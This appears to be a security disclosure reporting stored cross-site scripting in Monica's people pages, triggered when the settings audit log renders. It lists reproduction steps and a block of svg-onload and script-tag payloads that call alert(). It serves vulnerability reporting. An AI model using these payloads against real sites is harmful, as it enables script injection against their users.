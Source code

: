 # Description
 XSS queries being triggered from people info page by the **audit log** at the settings.
# POC
* adding people info filled with payloads [fig1](https://cdn.discordapp.com/attachments/749019614352244777/750572658319425536/monica3.1.PNG)
* Triggering payload [fig2](https://cdn.discordapp.com/attachments/749019614352244777/750572688254173244/monica3.2.PNG)
# PoC
* add payloads at the [people page](https://app.monicahq.com/people) 
* trigger multiple payload at [audit log button](https://app.monicahq.com/settings/auditlogs)
# Payloads Used
``` javascript
< <svg/onload=alert("firstname1")><script> alert("firstname2_xss")</script> <script> alert("midname_xss")</script> <script> alert("Lname_xss")</script><svg/onload=alert(1)> (<svg/onload=alert("nickie1")>)
```
